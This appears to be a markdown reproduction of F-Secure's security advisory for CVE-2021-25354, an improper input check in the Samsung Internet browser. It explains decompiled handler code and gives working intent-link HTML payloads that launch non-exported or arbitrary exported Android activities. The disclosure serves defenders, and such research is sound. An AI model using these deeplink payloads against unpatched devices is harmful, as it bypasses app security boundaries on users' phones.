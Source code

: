 ```yaml
---
layout: cve
title: "Samsung Internet Improper Input Check"
cve_id: "CVE-2021-25354"
date: 2021-02-01
reference: 
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25354
  - https://security.samsungmobile.com/serviceWeb.smsb?year=2021&month=2
description: "Improper input check in Samsung Internet prior to version 13.2.1.46 allows attackers to launch non-exported activity in Samsung Browser via malicious deeplink."
---
```


#### Original post: [https://labs.f-secure.com/advisories/open-activities-via-samsung-browser/](https://labs.f-secure.com/advisories/open-activities-via-samsung-browser/)

|    **Product**    | Android devices with Samsung Internet (prior to version 13.2.1.46) |
|    **Severity**   |                  Medium                  |
| **CVE Reference** |              CVE-2021-25354              |
|      **Type**     |        Application Security Bypass       |

## Description

F-Secure looked into exploiting the Samsung S20 device for Tokyo Pwn2Own 2020. An issue was discovered that allowed a specific browsable intent in Samsung Browser (com.sec.android.app.sbrowser) to either:

* Launch non-exported activities in the Samsung Browser application
* Launch an exported activity in any installed application

Note that while this issue was found on a Samsung Galaxy device, the Samsung Internet browser application is available on the Google Play store and can be installed on any Android device with access to said store. It was confirmed that this issue could be exploited on any Android device that had the Samsung Internet application installed.

## Technical Details

The issue is due to the class `com.sec.android.app.sbrowser.capsule.BixbySBrowserLauncherActivity` methods `handleIntent` and `handleShareVia`. First, `handleIntent` does the following:

* Parses the passed intent and establishes the URI `data` from the intent's data
* Parses the URI `data` and establishes the list `pathSegments` from the URI's path segments
* If the first item in the list `pathSegments` is `ShareVia`, then the method `handleShareVia` is executed

```
private void handleIntent(final Intent intent) {
    final String action = intent.getAction();
    final Uri data = intent.getData();
    int n = 1;
    if ("android.intent.action.VIEW".equals(action) && data != null) {
        final String string = data.toString();
        final List pathSegments = data.getPathSegments();
        if ((this.mPathSegments = (List<String>)pathSegments) != null) {
            if (pathSegments.size() != 0) {
                final String pathSegments2 = this.getPathSegments(0);
                if (pathSegments2 == null) {
                    return;
                }
            Label_0738: {
                switch (pathSegments2.hashCode()) {
                ...
                    case -679124017: {
                        if (pathSegments2.equals("ShareVia")) {
                            n = 4;
                            break Label_0738;
                        }
                        break;
                }
                ...
            switch (n) {
                ...
                case 4: {
                    this.handleShareVia();
                    break;
                }
```

Next, `handleShareVia` does the following:

* Creates a new intent `createIntentWithTargetTask`
* Checks if the second item in the list `pathSegments` is `result_type_success`
* Checks if the third and fouth items in the list `pathSegments` are not null
* If the fourth item in the list `pathSegments` is not `com.sec.android.app.sbrowser.ReceiveWeChatMomentActivity`, then assign the following `createIntetWithTargetTask` extra values:
	* `packageName` = the third item in the list `pathSegments`
	* `activityName` = the fourth item in the list `pathSegments`
* Start the activity outlined in the intent `createIntentWithTargetTask`

```
private void handleShareVia() {
    String pathSegments = getPathSegments(1);
    if (pathSegments != null) {
        Intent createIntentWithTargetTask = createIntentWithTargetTask("com.sec.android.app.sbrowser.INTENT_SHARE_VIA");
        createIntentWithTargetTask.putExtra("resultType", pathSegments);
        if ("result_type_success".equals(pathSegments)) {
            String pathSegments2 = getPathSegments(2);
            String pathSegments3 = getPathSegments(3);
            if (pathSegments2 != null && pathSegments3 != null) {
                if (pathSegments3.equals("com.sec.android.app.sbrowser.ReceiveWeChatMomentActivity") && !this.isWeChatAvailable()) {
                    Log.d("BixbyLauncherActivity", "WeChat is not installed!");
                    createIntentWithTargetTask.putExtra("resultType", "result_type_fail");
                } else {
                    createIntentWithTargetTask.putExtra("packageName", pathSegments2);
                    createIntentWIthTargetTask.putExtra("activityName", pathSegments3);
                }
            } else {
                return;
            }
        ...
        try {
            getApplicationContext().startActivity(createIntentWithTargetTask);
        } catch (ActivityNotFoundException e) {
            Log.d("BixbyLauncherActivity", "[handleShareVia]" + e.toString());
        }
    }
}
```

Using this information, it is possible to create a custom intent that launches a specific activity:

```
intent://com.sec.android.app.sbrowser/ShareVia/result_type_success/<package name>/<activity name>
```

The following example browsable intent link will launch the non-exported component `com.sec.android.app.sbrowser/com.google.zxing.client.android.SecCaptureActivity` in the Samsung Browser application:

```
<a href="intent://com.sec.android.app.sbrowser/ShareVia/result_type_success/com.sec.android.app.sbrowser/com.google.zxing.client.android.SecCaptureActivity/#Intent;scheme=samsunginternet;action=android.intent.action.VIEW;package=com.sec.android.app.sbrowser;end">click here</a>
```

By replacing the appropriate fields, it is also possible to launch activities that are exported in other applications. The following browsable intent link will launch the exported component `com.sec.android.app.myfiles/com.sec.android.app.myfiles.external.ui.PickerActivity`:

```
<a href="intent://com.sec.android.app.sbrowser/ShareVia/result_type_success/com.sec.android.app.myfiles/com.sec.android.app.myfiles.external.ui.PickerActivity/#Intent;scheme=samsunginternet;action=android.intent.action.VIEW;package=com.sec.android.app.sbrowser;end">click here</a>
```

## Remedial Action

Samsung has released Samsung Browser version 13.2.1.46 which fixes the issue outlined in this advisory. F-Secure recommends that users upgrade Samsung Browser to at least version 13.2.1.46.

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   02/11/2020   | Issue disclosed to Samsung Mobile Security |
|   02/11/2020   | Issue assigned to a Samsung Security Analyst |
|   12/01/2021   | Follow up sent to Samsung |
|   17/01/2021   | Samsung confirms the vulnerability and rates it as a moderate risk issue |
|   09/02/2021   | Patch released, Samsung initiates process for bug bounty reward |
|   25/03/2021   | CVE Assigned |
|   26/03/2021   | Advisory Published |